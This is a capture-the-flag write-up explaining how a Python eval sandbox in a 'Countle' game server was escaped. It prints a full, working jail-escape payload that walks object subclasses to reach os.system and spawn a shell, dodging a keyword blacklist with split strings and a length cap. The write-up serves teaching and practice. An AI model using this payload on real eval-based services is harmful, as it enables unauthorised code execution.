




## Countle Training Centre

Category: Misc

In the challenge, we must connect to a server and play the countle game.  

In the source file, it appears that after winning 999999 consecutive rounds, the flag would be printed. However, due to the rate limit enforced, this would take roughly 27 hours, and automation is hence not a viable option. 



Our next best option is to exploit the `eval` call that evaluates our countle expression to give ourselves a shell.  




From the above, we can see that `eval` is being run in a sandboxed environment, where the `FLAG` variable cannot be referenced, and that most pyjail exploit functions have been blacklisted. Our payload is also restricted to a maximum length of 160.  

Another important detail worth noting is that `builtins` and `cat` are not actually blacklisted, as the list is missing a comma to separate them, so Python's implicit string concatentation causes both keywords to be excluded from the blacklist.


Naturally, the first step would be to escape our sandboxed environment to access normally accessible functions. The code snippet below exploits the `tuple` class to access all subclasses inheriting from the `object` class.  

```python
().__class__.__base__.__subclasses__()
```

The class we are most interested in would be the `warnings.catch_warnings` class, as its module builtins contains the `__import__` method, which we will need to gain access to `os` later on.  

As the Python versions on our system and the server may differ, we can dynamically search for the class through name filtering.

```python
[x for x in ().__class__.__base__.__subclasses__() if "catch" in x.__name__][0]
```

After instantiating an instance of our class, we can then import the `os` class and invoke a shell as shown below, bypassing the blacklist through string concatenations.  

```python
([x for x in ().__class__.__base__.__subclasses__() if "catch" in x.__name__][0]()._module.__builtins__["__impor"+"t__"]("o"+"s")).__getattribute__("syste"+"m")("s"+"h")
```

However, we now face the issue of our payload exceeding the length cap (167 characters).  

This can fixed with the following:
- shortening the term used to filter class names
- removing unncessary spaces
- removing addition signs through implicit string concatenations

Putting it all together, we shrink the payload down to 159 characters.  

```python
([x for x in().__class__.__base__.__subclasses__()if"cat"in x.__name__][0]()._module.__builtins__["__impor""t__"]("o""s")).__getattribute__("syste""m")("s""h")
```

After starting the challenge and entering our payload, we can finally spawn a shell and view the actual flag in the server source code.    


